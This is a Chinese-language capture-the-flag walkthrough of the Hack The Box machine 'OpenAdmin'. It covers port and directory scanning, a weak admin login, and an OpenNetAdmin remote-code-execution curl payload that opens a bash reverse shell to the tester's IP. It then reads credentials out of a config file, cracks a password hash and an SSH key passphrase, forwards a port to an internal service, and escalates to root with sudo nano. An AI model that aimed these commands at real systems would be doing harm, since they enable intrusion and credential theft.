 



![image-20220406013226415](https://raw.githubusercontent.com/huamang/image/master/image-20220406013226415.png)

# USER

namp扫描端口，开启了22端口ssh和80web服务

![image-20220406013248232](https://raw.githubusercontent.com/huamang/image/master/image-20220406013248232.png)

先看80端口，apache默认页面，进行一波路径扫描

![image-20220406013403142](https://raw.githubusercontent.com/huamang/image/master/image-20220406013403142.png)

扫出了两个这个

![image-20220406020718597](https://raw.githubusercontent.com/huamang/image/master/image-20220406020718597.png)

music路由

![image-20220406020825934](/Users/liucheng/Library/Application%20Support/typora-user-images/image-20220406020825934.png)

ona路由

![image-20220406021003274](https://raw.githubusercontent.com/huamang/image/master/image-20220406021003274.png)

绑定了一个域名

![image-20220406023321743](https://raw.githubusercontent.com/huamang/image/master/image-20220406023321743.png)

这个ona路由看起来有文章可做

右上角登录，尝试弱口令登录，用admin:admin成功登录进去

![image-20220406021440346](https://raw.githubusercontent.com/huamang/image/master/image-20220406021440346.png)



这个系统叫做opennetadmin，版本是v18.1.1，去网上找一下有没有攻击脚本，发现kali里面就自带了

![image-20220406233826613](https://raw.githubusercontent.com/huamang/image/master/image-20220406233826613.png)

这里直接拿poc打了

```
cp /usr/share/exploitdb/exploits/php/webapps/47691.sh ./
```

但是不知道为什么我执行后报错了，无法执行，不太懂sh脚本语法

![image-20220407010354627](https://raw.githubusercontent.com/huamang/image/master/image-20220407010354627.png)

这里payload简单我就直接curl执行命令了

```
curl -s -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;bash -c 'bash -i >%26 /dev/tcp/10.10.16.5/6688 0>%261'&xajaxargs[]=ping" http://10.10.10.171/ona/
```

## www-data->jimmy

成功弹到shell

![image-20220407010929982](https://raw.githubusercontent.com/huamang/image/master/image-20220407010929982.png)

看看当前目录的文件，有一个config文件吸引了我的注意，cat出来看看，这里包含了一个配置文件

![image-20220407011402691](https://raw.githubusercontent.com/huamang/image/master/image-20220407011402691.png)

跟进去看了一下，好像并没有什么密码的泄露

然后去local目录下看了一下，又找到了一个配置文件，是数据库的配置文件，这里有数据库用户名密码

![image-20220407011826426](https://raw.githubusercontent.com/huamang/image/master/image-20220407011826426.png)

```
'db_type' => 'mysqli',
'db_host' => 'localhost',
'db_login' => 'ona_sys',
'db_passwd' => 'n1nj4W4rri0R!',
'db_database' => 'ona_default',
'db_debug' => false,
```

这个密码看起来有点提示的意思，试着直接用这个密码登录，先看一下用户表，查一下/etc/passwd

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
...（省略）
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
jimmy:x:1000:1000:jimmy:/home/jimmy:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
joanna:x:1001:1001:,,,:/home/joanna:/bin/bash
```

jimmy和joanna有点可疑，试着登录到jimmy，但是报错了

```
www-data@openadmin:/opt/ona/www/local/config$ su jimmy
su jimmy
su: must be run from a terminal
```

这里就需要弹一下shell来，比如可以用python去做

```
python3 -c 'import pty; pty.spawn("/bin/sh")'

su jimmy
```

这里登录不知道为什么会说我密码错误了，那么就直接ssh连接

![image-20220407013004164](https://raw.githubusercontent.com/huamang/image/master/image-20220407013004164.png)

jimmy还拿不到user的权限

![image-20220407013100171](https://raw.githubusercontent.com/huamang/image/master/image-20220407013100171.png)

## jimmy->joanna

查看一下apache的配置文件

```python
ls -l /etc/apache2/sites-available/*
/etc/apache2/sites-available/default-ssl.conf
/etc/apache2/sites-available/internal.conf
/etc/apache2/sites-available/openadmin.conf
```

发现了这个东西

```
cat /etc/apache2/sites-available/internal.conf
```

```
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```

发现是joanna用户的，这里在52846端口开启了一个web服务，对应的目录在`/var/www/internal`

在index.php里面有密码哈希

![image-20220407110348785](https://raw.githubusercontent.com/huamang/image/master/image-20220407110348785.png)

```
00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1
```

成功解密出来，密码是Revealed

![image-20220407110539788](https://raw.githubusercontent.com/huamang/image/master/image-20220407110539788.png)

重新进行ssh连接进行端口转发

```
ssh jimmy@10.10.10.171 -L 52846:127.0.0.1:52846
```

![image-20220407110921191](https://raw.githubusercontent.com/huamang/image/master/image-20220407110921191.png)

用jimmy:Revealed登录进去，给了一个私钥

![image-20220407111107553](https://raw.githubusercontent.com/huamang/image/master/image-20220407111107553.png)

用hashcat爆破出密码，先把密钥文件转换成john可识别格式

```
/usr/share/john/ssh2john.py enc > enc.john 
```

再用hashcat爆破出密码bloodninjas

![image-20220407121748243](https://raw.githubusercontent.com/huamang/image/master/image-20220407121748243.png)

再用openssl生成id_rsa，然后登录ssh

![image-20220407121610321](https://raw.githubusercontent.com/huamang/image/master/image-20220407121610321.png)

拿到user.txt

![image-20220407123540678](https://raw.githubusercontent.com/huamang/image/master/image-20220407123540678.png)

# ROOT

## joanna->root

这里有一个nano是用root权限使用的

![image-20220407123816355](https://raw.githubusercontent.com/huamang/image/master/image-20220407123816355.png)

可以去这里看https://gtfobins.github.io/gtfobins/nano/#sudo

```
sudo /bin/nano /opt/priv
```

执行ctrl+r后执行ctrl+x

![image-20220407125032145](https://raw.githubusercontent.com/huamang/image/master/image-20220407125032145.png)

执行一个id试试

![image-20220407125206843](https://raw.githubusercontent.com/huamang/image/master/image-20220407125206843.png)

直接执行`cat /root/root.txt`

![image-20220407125316599](https://raw.githubusercontent.com/huamang/image/master/image-20220407125316599.png)